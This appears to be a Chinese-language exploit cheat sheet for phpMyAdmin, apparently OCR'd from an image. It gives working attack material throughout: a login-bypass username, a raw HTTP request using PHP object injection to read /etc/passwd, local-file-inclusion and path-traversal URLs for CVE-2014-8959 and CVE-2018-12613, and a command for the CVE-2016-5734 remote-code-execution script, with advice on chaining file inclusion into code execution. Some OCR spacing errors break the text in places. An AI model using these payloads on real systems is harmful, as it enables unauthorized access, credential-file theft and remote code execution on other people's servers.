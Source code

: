 

### 低版本万能密码

版本2.11.3 / 2.11.4，用户名'localhost'@'@"则登录成功





### `WooYun-2016-199433`：任意文件读取漏洞

影响 phpMyAdmin`2.x` 版本

```http
POST /scripts/setup.php HTTP/1.1 
Host: your-ip:8080
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded Content-Length: 80
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```





### CVE-2014 -8959：本地文件包含

影响范围：`phpMyAdmin 4 .0.1--4 .2.12`，需要 `PHP version < 5.3.4`

```http
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=
/../../../../phpinfo.txt%00    # 注意改下token值
```

在实际利用中可以利用写入文件到 `/tmp` 目录下结合此漏洞完成 `RCE`.



### CVE-2016-5734 ：后台 RCE

影响范围：PhpMyAdmin`4 .0.x-4 .6.2`，需要 `PHP 4.3.0-5.4.6 versions`

```python
cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
```

poc地址：https://www.exploit-db.com/exploits/40185



### CVE-2018-12613：后台文件包含

`phpMyAdmin 4.8.0` 和 `4.8.1`，经过验证可实现任意文件包含。

漏洞验证：

```
http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```
